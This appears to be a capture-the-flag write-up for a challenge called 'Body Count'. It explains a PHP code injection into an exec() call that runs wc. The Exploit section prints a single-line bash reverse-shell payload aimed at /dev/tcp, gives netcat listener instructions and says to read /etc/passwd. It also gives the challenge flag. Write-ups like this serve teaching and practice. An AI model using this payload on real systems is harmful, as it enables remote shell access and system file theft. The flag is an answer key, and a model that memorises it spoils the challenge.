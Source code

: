 # Body Count

Author: [AJ1479](https://github.com/AJ1479)

## Description

This challenge is based on PHP code injection to set up a reverse shell. 

## Requirements

- Docker: [Dockerfile](./Dockerfile)

## Sources

```
Here's a character count service for you!
```

## Exploit

This challenge deals with PHP code injection, you need to enter some code which will help you create a reverse shell.
<br />

The characters are counted using the `wc` command in the `exec()` function in the PHP. This is where you'll have to enter code to open a reverse shell. Something like `'; bash -c "bash -i >& /dev/tcp/127.0.0.1/8000 0>&1"; '`(using semicolons to end the commands) with your server's IP address (instead of 127.0.0.1) and start a netcat listener (`nc -l -p 8000`) on your server. Then, navigate to the `/etc/passwd` to get the flag.
<br />

The flag is:

```
csictf{1nj3ct10n_15_p41nfu1}
```